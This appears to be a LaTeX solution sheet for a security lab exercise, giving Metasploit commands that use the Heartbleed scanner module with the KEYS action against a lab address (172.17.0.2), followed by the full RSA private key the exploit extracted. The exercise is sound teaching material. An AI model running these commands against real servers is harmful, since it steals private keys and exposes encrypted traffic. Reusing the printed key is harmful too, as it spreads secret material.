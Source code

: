 \documentclass[a4paper,11pt]{article}
\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-12pt}\begin{framed}}%
{\end{framed}\par}
\begin{document}
\begin{solution}
\begin{verbatim}
    msfconsole
    search heartbleed
    use auxiliary/scanner/ssl/openssl_heartbleed
    set RHOSTS 172.17.0.2
    set action KEYS
    set verbose true 
    exploit
\end{verbatim}
The key obtained is :
\begin{verbatim}
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA3FknF1R+zm3sPWZgD07cdn6AEwDYFh8uepErGw5Gp/lGNhME
rPkQjjL+W07Nf7yjkXi4bkdqrh8YueqM6Z5XfOZpOn07scMvvJ3jyWiJRZTu/9Sc
JtmKEunRwBDSunfKNW1TzHSyO1pHaV9gf4V6A0Yc+geH7jNIkIa+nVMk/+o468Ku
ZVGZNFbEYuYEnZx1gFwIIIQ22UryqaGkD9/ufKsLH11bvlsjbtILbU7uauFH2hDR
eIcymoB180SVHjYgnEW7QX6FNXHsO+ZH04eHtDW/7XGSmgbCFRsb+y3v8FeipJ58
zfdUqi2NFKUdE/9eQPYlPRYPW6EP5TEY5nxjvQIDAQABAoIBAHg+3qpInfqg2e6X
04wHCSBQ4Ct+pm1MDt0sI03ceIpp6frQXhjWwkYXZd8GHfa7Rre4HU1xA7KJncC3
UraahjvOsVYNyWm0jnRr5UagGWkzYUmTCLPauxKfLquVgqnnfR2yz6wfcrQZDCdg
uRReDruCo4V+XpuKuOrF3XeVS/erIrP3nSGiDh8ax3Y3Jwxk6FXylL4k13SW+BXx
Coe8IJNRDM6uc/x8scCeVmjbC73xZaT1sMOL1NPvErriHmBYDo3lAqTMp2QG0bCh
J7RKau0YYsseMrkzL/1xpNZtTNvHbElvA4sOMTCZXwlKieBAQ9zkdXPgdJVG+G98
6RDFKbECgYEA7N7EE36VKsVOk193uPuJF4CYgl2biE1/STSQOY+Lv146unQpEuK0
v0xIvA4zttg3RAueTO3XHKdbZV8u5C5ZrQZAxA043u8nMHSXH2r7neP/ZYcZq8ZU
u1PxUx7FO0qVDgDug7x0lYEakviS2F3OdxbiSYbcjfvAaN/IHbGBABsCgYEA7iTM
xvxjRcvhLRVr95nbyXa1nd1L4XjwMRTMd2io4C8eoHCZeuoiCY/hwv5vDDd9wKWu
D21r6PEVf5mTdpEoP6l2t6C8VBEbMR31Vh+iR9hDS6+4b6K4hHH0e95ei94bKwJg
/5w/6uPwE7djtEVsHQqxxsAsyhZ3ygydob+EWQcCgYAWYTXFYcBWOi4iXnLBV4Ks
ZcoDBzUau7e7Auxdg+KAQjbqRu9aiXDqYhq9KdpY/DS8iRx7yDz6yBUqjsOva3Gt
l1mnLFijN5VMTre4kDMVx+Tpgso6IJMA3/19DPs1juZmXFAswjGBrqEEIdg9+R74
wYC/0a4k/BRB1GLj61F04QKBgGRvsM3bdCLjsbxJ5JcwlLmLD13dDzuwvdx1YSab
RV4HgWs5EgH87Q4LWLPciwkj/i1ZsudexrwfsWl3Y/IFlmwDFMatS8BI1qcIc4g3
H0Idu4QYQDkU760sQmhbiJSEwACLqE0loO934rDuD2bgQJCfCgtA0aMJhsv4NiMZ
mr/RAoGBAL/t1l3Djd8s/aWezmy0jV/RT7rCLMaY7cACE9Del3ClRokMyNb6xLQj
jnzRA8t/0tZ6jbmQivhG5algHSFn3zcdVtfWEMmtKy0Wjld4pnnUOTf5z60mHQRc
K38Y6HS/5o4izQ7rZ921qV7uqSJkaH/4QMv4TNjwNk2Qg8ietat0
-----END RSA PRIVATE KEY-----
\end{verbatim}


\end{solution}
\end{document}
